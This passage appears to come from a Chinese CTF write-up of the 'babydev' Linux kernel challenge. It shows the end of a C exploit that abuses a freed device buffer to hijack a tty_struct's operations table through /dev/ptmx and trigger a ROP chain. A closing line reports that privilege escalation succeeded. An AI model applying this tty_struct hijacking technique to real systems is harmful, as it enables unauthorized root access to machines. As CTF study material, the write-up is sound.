 ````c
    fake_tty_operations[1] = rop; //rax==rop
    // fake_tty_operations[2-29] = MOV_RSP_RAX_DEC_EBX;


    int fd1 = open("/dev/babydev",2);
    int fd2 = open("/dev/babydev",2);

    dev_alloc(fd1,0x2e0); //tty_struct
    close(fd1);

    size_t fake_tty_struct[4] = {0};

    int fd_tty = open("/dev/ptmx", O_RDWR|O_NOCTTY);
    read(fd2, fake_tty_struct, 32); //save real tty_struct (for magic and more..)
    fake_tty_struct[3] = (size_t)fake_tty_operations; // real_tty_op --> fake_tty_op
    write(fd2,fake_tty_struct, 32); // write back

    char bufs[0x8]={0};
    write(fd_tty, bufs, 8); //write --> rop

    return 0;
}
````

最后提权成功

![](https://pic.imgdb.cn/item/626fbf03239250f7c556ed49.png)


